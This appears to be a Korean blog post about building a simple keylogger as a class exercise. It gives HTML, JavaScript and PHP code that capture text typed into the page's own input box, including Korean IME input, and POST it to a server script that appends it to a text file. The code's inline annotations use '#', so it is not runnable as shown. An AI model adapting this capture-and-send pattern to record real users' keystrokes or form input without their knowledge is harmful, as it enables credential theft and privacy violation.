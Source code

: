 ```yaml
---
layout: single
title:  "4주차 키로거 만들기"
categories: project
typora-root-url: ..\
author_profile: false
---
```




<br>

# <span style="background:#000000; color:#ffffff">1.키로거 만들기</span>

<br>

키로거란? 사용자가 작성하는 글을 기록하고 전송하는 것을 말합니다. 즉 사용자의 입력의 데이터를 가져오는 것입니다.

키로거를 만든 것을 보여드리면서 코드를 설명하겠습니다.

<img src="/images/2024-05-14-3/image-20240514033456490.png" alt="image-20240514033456490" style=" zoom: 50%;" /><img src="/images/2024-05-14-3/image-20240514034539596.png" alt="image-20240514034539596" style="zoom:50%;" />

▶ 글을 작성하니, 작성한 글이 txt파일에 저장되는 모습!

## <span style="background:#696969; color:#ffffff">1.1 keylog.html</span>

<br>

저는  기본적으로 작성할 텍스트 박스를 만들었고, 텍스트의 내용을 밑에 표시하고 싶었기 때문에 pre를 작성해두었습니다.  
필요에 따라 밑에 표시하는 구문은 지우셔도 무방합니다.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>keylogger</title>
</head>
<body>
    <h1>keylogger</h1>
    <input type="text" id="input" placeholder="입력할 글자를 넣어주세요">
    <pre id="log"></pre>
</body>
<script src="keylogger.js"></script>
</html>
```



## <span style="background:#696969; color:#ffffff">1.2 keylogger.js</span>

<br>▶<span style='font-weight:bold; font-size:20px'>DOMContentLoaded로 구성 및 변수지정</span>

```javascript
document.addEventListener('DOMContentLoaded', () => {		#DOM이 완료되고, 초기에 스크립트를 실행하기 위함.
    const input = document.getElementById('input');		# 작성할곳	
    const log = document.getElementById('log');			# 작성한 것이 밑에 나타날 곳	
    let composing = false;					# IME 입력 중인지 나타내는 플래그(한글작성을 위해)
    let buffer = '';						# 데이터를 임시 저장(한글의 문장열을 한꺼번에 보내려고)
    let timeoutId = null;					# 디바운싱을 위한 타임아웃 ID(불필요한 텍스트를피하려고)
```



▶<span style='font-weight:bold; font-size:20px'>IME 입력으로 한글적기 및 밑에 텍스트 내용 표시하기</span>

```javascript
 #한글을 작성할 때 
 #(영어가 아닌 한글은 자음가 모음의 결합된 형태이기 때문에 composing을 이용하여 문자조합의 시작과 끝을 나누어서 봐야한다.)

	input.addEventListener('compositionstart', () => {	#입력을 시작, true는 입력중이라는 뜻.
        composing = true;
    });

    input.addEventListener('compositionend', (event) => {	#입력 끝, false는 입력을 끝냈다는 뜻.
        composing = false;					#한글 작성을 끝내고,buffer와log에 데이터를 추가
        buffer += event.data || '';
        log.textContent += event.data || '';
        sendData(buffer);					# buffer에 저장된 텍스트를 서버로 전송
        buffer = '';						# buffer 초기화
    });
-----------------------------------------------------------------------------------------------------------
    #영어를 작성하거나 기타 다른 것을 작성할 때(밑에 log 작성안할시,if문에 buffer 데이터추가하고 서버에 보내도 됌)

    input.addEventListener('input', (event) => {					
        if (!composing) {						# 한글을 입력하지 않고 다른것을 작성할때
            if (event.inputType === "deleteContentBackward") {		# backspace키
                log.textContent = log.textContent.slice(0, -1);		# slice는 추출해서 새로운 문자열 만드는것
            } else {							(인덱스0, 인덱스-1)이므로 마지막단어빼고 만듬
                log.textContent += event.data || '';			# 나머지는 영어라서 log에 데이터 추가
            }
            debounceSendData(log.textContent);				# 디바운싱을 적용하여 서버에 전송
        }								시간 차를 이용해서 텍스트를 모아서 한꺼번에 처리하여, log에 불필요한 텍스트가 생기는 것을 방지한다.
    });

```



▶<span style='font-weight:bold; font-size:20px'>데이터 전송하기 및 서버 응답 상태 확인하기</span>

```javascript
	###글 작성시, 바로 서버에 보내면 불필요한 글까지 전송된다. 하여 시간 차를 두어 수정할 시간을 확보하기 위함이다.### 
    
    function debounceSendData(text) {
        clearTimeout(timeoutId);		#이전에 설정된 타임을 취소.
        timeoutId = setTimeout(() => {		#새로운 타임 설정, 2초후에 서버로 text를 보냄.
            sendData(text); 
        }, 2000); 
    }

    function sendData(text) {
        var xhr = new XMLHttpRequest();		#웹페이지가 로딩이 끝난뒤에도 서버에 데이터를 주고 받을수 있음.
        xhr.open("POST", "keylog.php", true);	#요청을 설정. (메서드, 경로, 비동기(true),동기(false))
        					동기: 데이터베이스 검색후, 다음코드 진행하는 것처럼 한작업 끝나고 진행
                        			비동기:서버에 데이터주고받을때 처럼 바로 요청에 응답처리
        
                                                
        ###http요청헤더 content-Type 헤더에서 보낸 데이터가 url을 인코딩, 문자 인코딩이 utf-8 지정###   
         
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');

        
        ###http요청이 완료되었을 때, http상태가 200(좋음)인지 아닌지에 따라 출력하기###
        
        xhr.onload = function() {
            if (xhr.status === 200) {
                console.log('Data sent successfully:', xhr.responseText);
            } else {
                console.log('Failed to send data:', xhr.status);
            }
        };

        xhr.send(`keys=${encodeURIComponent(text)}`); 		#데이터 인코딩해서 전송
    }
});

```



## <span style="background:#696969; color:#ffffff">1.3 keylog.php</span>

<br>

▶<span style='font-weight:bold; font-size:20px'>데이터 txt 파일로 보내기</span>

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $keys = $_POST['keys'] ?? '';             # key가 존재하지 않거나 null값이면 ''
    file_put_contents("keylog.txt", $keys . PHP_EOL, FILE_APPEND | LOCK_EX); 
}	#PHP_EOL:줄바꿈 추가#  #FILE_APPEND:기존내용유지,뒤에 계속내용추가# #LOCK_EX:다른프로세스가 파일을 변경할수 없게함#
```





